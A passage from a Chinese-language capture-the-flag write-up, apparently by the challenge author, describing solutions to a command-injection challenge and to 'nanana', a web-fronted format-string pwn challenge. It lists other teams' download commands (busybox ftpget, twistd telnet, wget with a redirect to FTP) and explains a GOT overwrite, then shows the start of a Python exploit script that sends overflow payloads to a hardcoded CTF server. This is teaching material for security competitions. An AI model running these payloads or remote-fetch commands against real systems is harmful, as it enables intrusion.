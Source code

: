 就可以任意代碼執行

從 log 中有看到其他隊伍的解法是

```
busybox ftpget ...  

```

或是

```
twistd telnet ...  

```

或是

```
wget HEX_IP
// 給個 302 Redirect 到 FTP protocol 上，也是這題解法中最訝異的XD
// 本來還檢查過 wget source code 想說產生的 index.html 應該不可控，結果居然到 FTP Protocol 上竟然就可以控  

```

總體來講也看到各種玩 Command Line 的極限XD 學到滿多用法的  
最為出題者來講我覺得是最成功的一題，簡單好玩又有趣!

0x02 200 nanana (18 隊解)
=====

> [https://gist.github.com/orangetw/4942d949134227eedd4c](https://gist.github.com/orangetw/4942d949134227eedd4c)

```
xxd -r -p nanana.xxd > nanana

```

名為 Web 實際上卻是 Pwn 的題目  
只提供 binary 並無提供`libcgid.so`所以必須在沒有 library 的狀況下解決這題! 簡單的`Format String`但沒有`output (sprintf)`，把 do_job 的 GOT 換成 system 的 PLT 地址就可以

不過唯一要注意的是得先利用`stack guard`覆蓋`stack smashing detected`的 ARGV[1](http://drops.javaweb.org/uploads/images/0310a670a917e66d4f6edd5d831f82ff281fa7a9.jpg)的方式達成任意地址洩漏把 password 給洩漏出來才比較好利用  
但是因為 64-bits 且送的東西無法有 NULL Byte 所以在蓋 ARGV[1](http://drops.javaweb.org/uploads/images/0310a670a917e66d4f6edd5d831f82ff281fa7a9.jpg)的時候必須用比較迂迴的方式蓋  
先使用 username 把 ARGV[1](http://drops.javaweb.org/uploads/images/0310a670a917e66d4f6edd5d831f82ff281fa7a9.jpg)最後一個蓋 NULL  
再使用 username 把 ARGV[1](http://drops.javaweb.org/uploads/images/0310a670a917e66d4f6edd5d831f82ff281fa7a9.jpg)倒數第二個蓋 NULL  
之後 job 蓋記憶體位置(0x601090)三個 bytes 後剩下的五個 bytes 才會剛好是 NULL 以達到任意地址讀取

詳細 Exploit 可以參考

```
import requests
from urllib import urlencode
from struct import pack, unpack

URL = 'http://54.92.88.102/cgi-bin/nanana'

def leak(address):
    address = pack('I', address)
    address = address.strip('\x00')

    payload = {
        'username': 'A'*349, 
        'password': 'B'*380, 
        'job': 'C'*392 + address
    }
    r = requests.get(URL+'?'+urlencode(payload))
```